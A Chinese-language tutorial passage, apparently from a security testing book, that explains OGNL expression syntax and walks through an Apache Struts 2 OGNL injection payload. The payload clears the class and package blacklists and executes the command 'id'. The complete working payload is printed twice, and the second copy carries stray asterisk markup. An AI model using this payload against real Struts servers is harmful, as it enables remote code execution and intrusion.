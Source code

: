 在分解有效负载之前，让我们了解一些关于 OGNL 的东西，这将帮助我们更好地理解有效负载：

| **运算符** | **描述** |
| --- | --- |
| `${..}` or `%{..}` | 一个 OGNL 表达式块。 |
| `(e)` | 一个带括号的表达式。 |
| `e.method(args)` | 方法调用的语法。 |
| `e.property` | 调用属性的语法。 |
| `e1[e2]` | 数组索引。 |
| `[e]` | 数组索引引用。 |
| `#variable` | 上下文变量引用。 |
| `@class@method(args)` | 静态方法引用。 |
| `{e1,e2,e3,..}` | 列表创建-逗号（`,`）的用法与分号（`;`）相同，用于结束语句。 |
| `e1.(e2)` | 子表达式评估。 |

现在，让我们通过参考前面的表来分解先前提到的有效负载。

在以前的 Struts 版本中，`_memberAccess`对象用于控制 OGNL 的操作，但在后来的版本中，`_memberAccess`对象甚至受到了对构造函数调用的限制。这是由于`excludedClasses`、`excludedPackageNames`和`excludedPackageNamePatterns`黑名单，拒绝访问特定的类和包。即使`_memberAccess`对象是可访问的，对该对象也施加了严格的限制。

要绕过这样的限制，在 Struts 版本 2.3.20-2.3.29 中，我们只需用`DefaultMemberAccess`对象（`SecurityMemberAccess`类中的可访问静态对象）替换`_memberAccess`对象，这将允许我们控制 OGNL 的操作而没有任何限制。

因此，负载的第一行用于通过将上下文从`_memberAccess`更改为`DefaultMemberAccess`来绕过对`_memberAccess`对象的限制：

```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

在上述代码中，`OgnlContext`是一个类，根据 Apache Common OGNL 表达式参考（[`commons.apache.org/proper/commons-ognl/apidocs/org/apache/commons/ognl/OgnlContext.html`](https://commons.apache.org/proper/commons-ognl/apidocs/org/apache/commons/ognl/OgnlContext.html)）定义了 OGNL 表达式的执行上下文。

现在上下文已从`_memberAccess`更改为`DefaultMemberAccess`，我们可以使用`setMemberAccess`方法设置`MemberAccess`。但是，为了访问对象，我们首先需要清除黑名单（`excludedClasses`、`excludedPackageNames`和`excludedPackageNamePatterns`）。我们可以通过恢复到原始上下文来清除黑名单，如我们负载的下一行突出显示所示：

```
${(*#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS*).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```
